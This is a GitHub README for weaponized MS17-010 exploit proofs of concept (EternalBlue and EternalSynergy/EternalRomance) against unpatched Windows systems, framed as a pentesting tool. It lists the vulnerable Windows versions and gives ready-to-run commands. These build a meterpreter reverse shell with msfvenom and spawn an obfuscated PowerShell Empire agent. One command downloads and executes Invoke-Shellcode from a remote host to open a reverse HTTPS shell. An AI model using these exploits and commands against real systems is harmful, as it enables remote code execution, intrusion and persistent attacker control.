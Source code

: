 # MS17-010 RCE PoC's

All credits go out to [worawit](https://github.com/worawit/MS17-010). I've just added some usage clarifications and weaponized them to be more usable for pentesting purposes.

## Eternalblue

Eternalblue only requires access to IPC$ to exploit a target while other exploits require access to a named pipe as well. Eternalblue thus works on all versions of Windows that allow anonymous access to IPC$ (Windows 7 and Windows 2008, or later version explicitly configured to allow anonymous access). Keep in mind that Eternalblue has a higher change of crashing a target than Eternalsynergy - Eternalromance.

### Compatible targets

**eternalblue_exploit7:**

- Windows 7 SP1 x64
- Windows Server 2008 R2 SP1 x64
- Windows 7 SP1 x86
- Windows Server 2008 SP1 x86

**eternalblue_exploit8:**

- Windows Server 2012 R2 x64
- Windows 8.1 x64

### Exploit usage

Example for spawning a meterpreter session on an x64 machine:

1. `nasm -f bin eternalblue_kshellcode_x64.asm`
2. `msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o meterpreter_msf.bin EXITFUNC=thread LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT>`
3. `cat eternalblue_kshellcode_x64 meterpreter_msf.bin > sc_x64.bin`
4. `python eternalblue_exploit7.py <TARGET_IP> shellcode/sc_x64.bin`


## Eternalsynergy - Eternalromance

This exploit exploits the same bug used by NSA's Eternalromance and Eternalsynergy. A named pipe is needed, meaning on more modern (default) configurations you will need credentials in order for the exploit to work. In most cases, domain user credentials will suffice. You can use `find_named_pipe.py` to find available named pipes on the target.

### Compatible targets

- Windows Server 2016 x64
- Windows Server 2012 R2 x64
- Windows Server 2008 R2 SP1 x64
- Windows 10 x64
- Windows 8.1 x64
- Windows 8.1 x86
- Windows 7 SP1 x64
- Windows 7 SP1 x86

### Usage

Example for finding a named pipe:

`python find_named_pip.py 192.168.178.2 testuser !Password123`

Usage of `eternalsynergy_romance.py`: 

`python eternalsynergy_romance.py <target_ip_address> <named_pipe> <username> <password> <command_to_execute>`

Example for spawning an Empire agent:

`python eternalsynergy_romance.py 192.168.178.2 netlogon testuser !Password123 "powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AEUAbQAuAE4AZQBUAC..."`

Example for spawning a meterpreter session:

`python eternalsynergy_romance.py 192.168.178.2 netlogon testuser !Password123 "powershell -Exec ByPass -NoP -noexit \"IEX (New-Object Net.WebClient).DownloadString('http://192.168.178.3/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.178.3 -Lport 8443 -Force \""`

(I typically grab Invoke-Shellcode.ps1 from http://bit.ly/2cuWJTF, but that only works when the target has an unfiltered outbound connection.)
